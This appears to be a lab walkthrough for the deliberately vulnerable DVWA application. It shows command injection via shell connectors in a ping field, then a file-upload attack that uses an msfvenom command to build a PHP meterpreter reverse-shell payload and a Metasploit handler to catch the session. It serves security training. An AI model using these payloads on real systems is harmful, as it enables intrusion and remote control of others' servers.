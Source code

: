 # DVWA 

---------------------------

## Command Injection

Command injection let you perform commands on the textbox that is intended for another task such in this case, ping a host.

Connectors can be used here to add a command which will run with the action (or not) that this textbox is intended for:

![image](https://github.com/ELRame/HackingTools/assets/82544416/88a0d631-49be-4e91-afee-22850eccc81c)

Other connectors u can use are: **&&** **&** **;**

With this in mind, and changing the difficulty on DVWA you can take a look at the source code to see if there is some character escaped/blacklisted:

![image](https://github.com/ELRame/HackingTools/assets/82544416/d25a3f58-8f92-40e7-98db-784ea3507280)

---------------------------------

## File Upload

File upload allows you to upload a malicious file into the dvwa directory, with a reverse meterpreter connection, you'll be able to run commands on it.

Run `````msfconsole```` and search for multi handler:

![image](https://github.com/ELRame/HackingTools/assets/82544416/5e93e9b8-42cf-445a-80c3-fb1750c094a6)

Select the number 30 with ````use 30```` (multi/handler) and set the payload as ````php/meterpreter/reverse_tcp````

![image](https://github.com/ELRame/HackingTools/assets/82544416/7e48c7ee-f1a0-4577-933c-d41c8c2290fc)

Then type ````show options`````to get the fields you need to fill, in this case LHOST, which can be set with ````set LHOST youripmachine```` that in this case is **127.0.0.1** (localhost) since we are running dvwa in the same machine

![image](https://github.com/ELRame/HackingTools/assets/82544416/dcbf1fde-19cd-404d-ae0e-bd91972b9b52)

After this you can create the payload for dvwa with **msfvenom** using the folloring command:

````
msfvenom -p php/meterpreter/reverse_tcp LHOST=youripmachine LPORT=4444 -f raw >malfile.php
````

![image](https://github.com/ELRame/HackingTools/assets/82544416/ea79972c-b9ef-4c1a-acf4-75a3adf10b85)

After this you can go to dvwa and upload the file, once uploaded, you have to go back to metasploit and run the command ````run```` or ´´´´exploit´´´´ in order to put it in listening state:

![image](https://github.com/ELRame/HackingTools/assets/82544416/9ba1a9da-0a65-46ae-b255-b11891429edd)

Now, on dvwa copy the path where the file was uploaded and put it in the url address:

![image](https://github.com/ELRame/HackingTools/assets/82544416/3eec3d74-ba1f-4f7d-ad0d-5f93f0e7a6e0)

After that, go to the url and the meterpreter session should be running:

![image](https://github.com/ELRame/HackingTools/assets/82544416/385b87cc-915d-466f-bc52-b132aec04276)

![image](https://github.com/ELRame/HackingTools/assets/82544416/cbd56dcc-72dd-4736-b78e-9e659f4a3f9e)

### Medium Difficulty

